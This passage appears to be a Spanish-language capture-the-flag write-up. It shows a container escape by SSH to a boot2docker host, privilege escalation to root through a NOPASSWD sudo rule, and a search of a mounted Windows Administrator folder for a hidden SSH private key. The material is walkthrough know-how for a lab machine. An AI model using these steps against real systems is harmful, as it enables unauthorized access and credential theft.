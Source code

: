 `Escapamos` del `contenedor` siguiendo estos pasos [https://rioasmara.com/2021/08/08/privilege-escalation-boot2docker/](https://rioasmara.com/2021/08/08/privilege-escalation-boot2docker/)

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh -t docker@172.17.0.1
docker@172.17.0.1's password: 
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ whoami
docker
docker@box:~$ hostname -i                                                      
127.0.0.1
```

Nos convertimos en usuario `root`

```
-bash-4.4$ sudo -l
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
-bash-4.4$ sudo su
bash-4.4# whoami
root
```

He logrado encontrar una clave `id_rsa` que estaba oculta en el directorio `Administrator`

```
bash-4.4# ls -a
.             etc           linuxrc       run           usr
..            home          mnt           sbin          var
bin           init          opt           squashfs.tgz
c             lib           proc          sys
dev           lib64         root          tmp
bash-4.4# cd c
bash-4.4# ls -a
.      ..     Users
bash-4.4# cd Users
bash-4.4# ls -a
.              Administrator  Default        Public         desktop.ini
..             All Users      Default User   Tony
bash-4.4# cd Administrator
bash-4.4# ls -la
total 1465
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 Jul 28 22:08 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff         4096 Feb 19  2020 .ssh
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 3D Objects
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 AppData
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 Application Data
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Contacts
drwxrwxrwx    1 docker   staff            0 Sep 15  2018 Cookies
dr-xr-xr-x    1 docker   staff            0 Feb  8  2021 Desktop
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 Documents
dr-xr-xr-x    1 docker   staff            0 Apr  5  2021 Downloads
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Favorites
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Links
drwxrwxrwx    1 docker   staff         4096 Feb 18  2020 Local Settings
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Music
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 My Documents
-rwxrwxrwx    1 docker   staff       262144 Jan 11  2022 NTUSER.DAT
-rwxrwxrwx    1 docker   staff        65536 Feb 18  2020 NTUSER.DAT{1651d10a-52b3-11ea-b3e9-000c29d8029c}.TM.blf
```